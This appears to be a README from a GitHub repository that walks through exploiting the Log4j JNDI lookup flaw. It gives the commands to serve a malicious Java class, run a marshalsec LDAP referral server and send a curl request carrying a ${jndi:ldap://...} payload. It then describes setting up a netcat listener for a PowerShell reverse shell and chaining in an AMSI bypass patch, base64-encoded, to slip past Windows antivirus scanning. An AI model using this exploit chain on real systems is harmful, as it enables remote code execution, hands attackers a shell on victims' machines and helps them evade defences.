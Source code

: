 # Log4j Vulnerability

## Sources

* [Java - Apache Log4j 2 Library](https://logging.apache.org/log4j/2.x/)
* [John Hammond Log4j POC Video](https://www.youtube.com/watch?v=7qoPDq41xhQ&t=1481s)
* [Initial Github Repository For Log4j POC](https://github.com/xiajun325/apache-log4j-rce-poc)
* [Github Repository - Log4j POC](https://github.com/leonjza/log4jpwn)
* [Github - Powershell Reverse Shell](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)

## Method

Compile `Log4j.java` file :
```
javac Log4j.java
```

Start a HTTP server with Python :
```
python3 -m http.server 8080
```

Start LDAP server :
```
git clone https://github.com/mbechler/marshalsec
cd marshalsec
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8080/#Log4j"
```

Send poisonned request to server :
```
curl -H 'User-Agent: ${jndi:ldap://127.0.0.1:1389/Log4j}' localhost:8080
```

## Reverse shell

Create `netcat` connection to receive the access to the reverse shell :
```
nc -lnvp 8080
```

Get [this](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3) Powershell script and edit the IP address and the port to match with the target.

Then, go on [AMSI.fail](https://amsi.fail/) wbesite and copy a `Rasta-mouses Amsi-Scan-Buffer patch`. Encode the previous Rasta-mouses patch followed by the Powershell script into Base64 thanks to a [Powershell encoder](https://raikia.com/tool-powershell-encoder).

Adapt the code in `Log4j.java` file to run the corresponding command then compile :
```
javac Log4j.java
```